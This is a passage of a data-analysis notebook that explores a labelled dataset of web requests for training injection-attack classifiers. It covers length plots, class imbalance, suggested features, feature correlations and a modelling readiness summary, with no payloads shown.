Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.violinplot(data=df, x="label_name", y="url_length", ax=axes[0, 1], palette="Blues")
C:\Users\eEren\AppData\Local\Temp\ipykernel_22076\2506328452.py:11: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `x` variable to `hue` and set `legend=False` for the same effect.

  sns.boxplot(data=df, x="label_name", y="parameter_length", ax=axes[1, 



In [20]:
fig, axes = plt.subplots(2, 2, figsize=(16, 12))

sns.boxplot(data=df, x="label_name", y="url_length", ax=axes[0, 0], palette="Blues")
axes[0, 0].set_title("URL Length by Label")
axes[0, 0].tick_params(axis="x", rotation=20)

sns.violinplot(data=df, x="label_name", y="url_length", ax=axes[0, 1], palette="Blues")
axes[0, 1].set_title("URL Length Distribution by Label")
axes[0, 1].tick_params(axis="x", rotation=20)

sns.boxplot(data=df, x="label_name", y="parameter_length", ax=axes[1, 0], palette="Oranges")
axes[1, 0].set_title("Parameter Length by Label")
axes[1, 0].tick_params(axis="x", rotation=20)

sns.violinplot(data=df, x="label_name", y="parameter_length", ax=axes[1, 1], palette="Oranges")
axes[1, 1].set_title("Parameter Length Distribution by Label")
axes[1, 1].tick_params(axis="x", rotation=20)

save_current_fig("length_comparison_by_class.png")
plt.show()

## 11. Class Imbalance Report

Estimate the imbalance ratio and provide practical recommendations for downstream model training.

In [21]:
class_counts = df["label_name"].value_counts()
imbalance_ratio = class_counts.max() / class_counts.min() if not class_counts.empty and class_counts.min() > 0 else np.nan

imbalance_report = pd.DataFrame({
    "metric": ["majority_class_ratio", "minority_class_ratio", "imbalance_ratio"],
    "value": [majority_class_ratio, minority_class_ratio, imbalance_ratio],
})
display(imbalance_report)

recommendations = []
if pd.notna(imbalance_ratio) and imbalance_ratio >= 3:
    recommendations.extend([
        "Consider class-weighted learning as a first baseline.",
        "Use random oversampling or SMOTE for the minority attack classes if numerical features are the main representation.",
        "Use undersampling only if the majority class is very large and training speed becomes a concern.",
    ])
else:
    recommendations.append("Severe class imbalance is not obvious, but stratified train/validation splits are still recommended.")

for item in recommendations:
    print("-", item)

,metric,value
0,majority_class_ratio,0.506870
1,minority_class_ratio,0.100185
2,imbalance_ratio,5.059365


- Consider class-weighted learning as a first baseline.
- Use random oversampling or SMOTE for the minority attack classes if numerical features are the main representation.
- Use undersampling only if the majority class is very large and training speed becomes a concern.


## 12. Feature Engineering Suggestions

Based on the observed structure of the data, the following handcrafted features are strong candidates for classical machine learning models.

In [22]:
feature_suggestions = pd.DataFrame([
    ("url_length", "Long or unusually short URLs can signal crafted attack endpoints or encoded routes."),
    ("parameter_length", "Attack payloads often become longer because they embed commands, operators or templates."),
    ("parameter_count", "Abnormal parameter counts may indicate payload stuffing or generated attack templates."),
    ("parameter_special_char_count", "Injection payloads frequently rely on punctuation and delimiters."),
    ("parameter_digit_count", "Encoded payloads, identifiers and obfuscation patterns often introduce unusual digit ratios."),
    ("parameter_alpha_count", "Character composition helps separate natural text from operator-heavy payloads."),
    ("url_query_delimiter_count", "High delimiter density can indicate complex or malformed requests."),
    ("url_entropy", "High entropy can capture obfuscation, encoding or random-looking payload fragments."),
    ("parameter_entropy", "Attack strings often differ from benign form data in symbol diversity and randomness."),
    ("sql_keyword_count", "SQL-oriented vocabulary is a direct signal for SQL injection attempts."),
    ("shell_keyword_count", "Shell command keywords help isolate OS command injection behavior."),
    ("code_keyword_count", "Execution-oriented keywords are informative for code injection patterns."),
], columns=["feature", "why_it_can_help"])

display(feature_suggestions)

,feature,why_it_can_help
0,url_length,Long or unusually short URLs can signal crafted attack endpoints or encoded routes.
1,parameter_length,"Attack payloads often become longer because they embed commands, operators or templates."
2,parameter_count,Abnormal parameter counts may indicate payload stuffing or generated attack templates.
3,parameter_special_char_count,Injection payloads frequently rely on punctuation and delimiters.
4,parameter_digit_count,"Encoded payloads, identifiers and obfuscation patterns often introduce unusual digit ratios."
5,parameter_alpha_count,Character composition helps separate natural text from operator-heavy payloads.
6,url_query_delimiter_count,High delimiter density can indicate complex or malformed requests.
7,url_entropy,"High entropy can capture obfuscation, encoding or random-looking payload fragments."
8,parameter_entropy,Attack strings often differ from benign form data in symbol diversity and randomness.
9,sql_keyword_count,SQL-oriented vocabulary is a direct signal for SQL injection attempts.


## 13. Feature Correlation Analysis

Inspect numerical feature relationships to identify redundant signals and highly correlated groups.

In [23]:
numerical_features = [
    "url_length",
    "url_dot_count",
    "url_slash_count",
    "url_query_delimiter_count",
    "url_special_char_count",
    "url_entropy",
    "parameter_length",
    "parameter_count",
    "parameter_special_char_count",
    "parameter_digit_count",
    "parameter_alpha_count",
    "parameter_entropy",
    "sql_keyword_count",
    "shell_keyword_count",
    "code_keyword_count",
]

correlation_matrix = df[numerical_features].corr(numeric_only=True)
display(correlation_matrix)

high_correlation_pairs = (
    correlation_matrix.where(np.triu(np.ones(correlation_matrix.shape), k=1).astype(bool))
    .stack()
    .sort_values(key=lambda series: series.abs(), ascending=False)
)

display(high_correlation_pairs[high_correlation_pairs.abs() >= 0.8].rename("correlation").to_frame())

,url_length,url_dot_count,url_slash_count,url_query_delimiter_count,url_special_char_count,url_entropy,parameter_length,parameter_count,parameter_special_char_count,parameter_digit_count,parameter_alpha_count,parameter_entropy,sql_keyword_count,shell_keyword_count,code_keyword_count
url_length,1.000000,0.503428,0.423129,0.508279,0.878076,0.500406,-0.041560,-0.200189,-0.032526,-0.010995,-0.038774,-0.003178,-0.073637,-0.008459,0.075092
url_dot_count,0.503428,1.000000,0.097500,0.273532,0.417290,0.120571,0.062269,0.036145,0.067722,0.071506,0.062645,0.066749,0.018780,-0.054213,0.027941
url_slash_count,0.423129,0.097500,1.000000,0.246710,0.230573,0.623597,0.339972,0.114527,0.294990,0.276228,0.337756,0.363891,0.254982,0.270545,0.266819
url_query_delimiter_count,0.508279,0.273532,0.246710,1.000000,0.329760,0.517064,-0.121061,-0.307761,-0.061916,0.031189,-0.147313,0.007802,-0.146361,-0.074616,0.064953
url_special_char_count,0.878076,0.417290,0.230573,0.329760,1.000000,0.231069,0.039666,-0.051250,0.049139,0.051915,0.038300,0.040483,0.002342,-0.023641,0.061171
url_entropy,0.500406,0.120571,0.623597,0.517064,0.231069,1.000000,0.133618,-0.024582,0.041562,0.113235,0.153465,0.217518,0.128018,0.038152,0.122209
parameter_length,-0.041560,0.062269,0.339972,-0.121061,0.039666,0.133618,1.000000,0.829153,0.894743,0.806508,0.979875,0.574371,0.237570,0.482381,0.369452
parameter_count,-0.200189,0.036145,0.114527,-0.307761,-0.051250,-0.024582,0.829153,1.000000,0.652175,0.539185,0.861563,0.581027,0.372806,0.305921,0.084746
parameter_special_char_count,-0.032526,0.067722,0.294990,-0.061916,0.049139,0.041562,0.894743,0.652175,1.000000,0.824858,0.824838,0.494567,0.182085,0.358390,0.537899
parameter_digit_count,-0.010995,0.071506,0.276228,0.031189,0.051915,0.113235,0.806508,0.539185,0.824858,1.000000,0.681198,0.444616,0.113827,0.306588,0.776083


correlation
parameter_length             parameter_alpha_count            0.979875
                             parameter_special_char_count     0.894743
url_length                   url_special_char_count           0.878076
parameter_count              parameter_alpha_count            0.861563
parameter_length             parameter_count                  0.829153
parameter_special_char_count parameter_digit_count            0.824858
                             parameter_alpha_count            0.824838
parameter_length             parameter_digit_count            0.806508



In [24]:
plt.figure(figsize=(14, 10))
sns.heatmap(correlation_matrix, cmap="coolwarm", center=0)
plt.title("Numerical Feature Correlation Heatmap")
save_current_fig("feature_correlation_heatmap.png")
plt.show()

## 14. ML Readiness Report

Summarize the practical modeling implications of the EDA in a compact report.

In [25]:
dataset_clean = missing_summary["missing_count"].sum() == 0 and empty_url_count == 0 and not invalid_request_types
balanced = bool(pd.notna(imbalance_ratio) and imbalance_ratio < 3)
duplicate_problem = exact_duplicate_count > 0

promising_features = [
    "parameter_length",
    "parameter_special_char_count",
    "parameter_entropy",
    "sql_keyword_count",
    "shell_keyword_count",
    "code_keyword_count",
    "url_length",
]

recommended_preprocessing = [
    "Normalize request_type casing and confirm it contains only expected values.",
    "Remove exact duplicates before train/validation splitting if they are not intentional repetitions.",
    "Use stratified splitting because label proportions matter.",
    "Scale numerical features for distance-based models and linear models.",
    "Consider combining handcrafted numerical features with text vectorization of the parameter column.",
]

likely_models = [
    "Logistic Regression with class weights",
    "Linear SVM",
    "Random Forest",
    "XGBoost or LightGBM style gradient boosting",
    "Multinomial Naive Bayes on tokenized payload text as a lightweight baseline",
]

print("1. Is the dataset clean?", "Yes" if dataset_clean else "Mostly, but check the reported missing/invalid values.")
print("2. Is the dataset balanced?", "Reasonably balanced" if balanced else "Potentially imbalanced")
print("3. Are there duplicate problems?", "Yes" if duplicate_problem else "No obvious duplicate issue")
print("4. Which features appear most promising?", ", ".join(promising_features))
print("5. Which preprocessing steps are recommended?")
for step in recommended_preprocessing:
    print("   -", step)
print("6. Which classical ML algorithms are likely to perform well?")
for model in likely_models:
    print("   -", model)

1. Is the dataset clean? Yes
2. Is the dataset balanced? Potentially imbalanced
3. Are there duplicate problems? Yes
4. Which features appear most promising? parameter_length, parameter_special_char_count, parameter_entropy, sql_keyword_count, shell_keyword_count, code_keyword_count, url_length
5. Which preprocessing steps are recommended?
   - Normalize request_type casing and confirm it contains only expected values.
   - Remove exact duplicates before train/validation splitting if they are not intentional repetitions.
   - Use stratified splitting because label proportions matter.
   - Scale numerical features for distance-based models and linear models.
   - Consider combining handcrafted numerical features with text vectorization of the parameter column.
6. Which classical ML algorithms are likely to perform well?
   - Logistic Regression with class weights
   - Linear SVM
   - Random Forest
   - XGBoost or LightGBM style gradient boosting
   - Multinomial Naive Bayes on tokenized